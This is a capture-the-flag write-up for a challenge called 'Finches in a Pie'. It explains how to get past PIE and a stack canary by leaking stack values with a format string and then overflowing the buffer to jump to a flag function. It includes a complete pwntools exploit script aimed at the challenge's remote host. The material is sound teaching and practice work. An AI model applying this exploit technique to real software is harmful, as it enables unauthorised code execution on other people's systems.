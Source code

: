 # Finches in a Pie
 
Very similar to FIAS, so I won't explain the parts about a stack canary.

This time, there's PIE. 

What changes? What changes is that the address of our ever-so-important flag function changes every time, as PIE randomises the base of the binary.

What we need to do is leak a value on the stack that we can calculate the binary base from.

We're in luck. When a function is called, the address of the instruction for it to ret to is placed on the top of the stack.

This means if the value isn't later overwritten, the addresses of some instructions, including instructions of functions of the binary, will remain on the stack.

So? So, we can leak an instruction of a function in the binary, and calculate the base off of this. 

I chose stack item 3, the address of the instruction in say_hi after it calls the pc_get_thunk function.
Our exploit:

Leak canary and binary base in one go with format string\
Send junk + canary + junk + flag address\
Script below:

```python
from pwn import *
import re
e = ELF("./fiap")
#p = e.process()
p = remote('95.216.233.106',22951)
p.clean()
leak = "%3$p.%11$p"
p.sendline(leak)
output = p.recvline().decode()
leaks = re.findall("Thank you, (.*)!", output)[0].split('.')
leaks = list(map(lambda x: int(x,16), leaks)) 
e.address = leaks[0] -  0x0000128f
canary = leaks[1]
log.info(f"Binary base: {hex(e.address)}")
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```
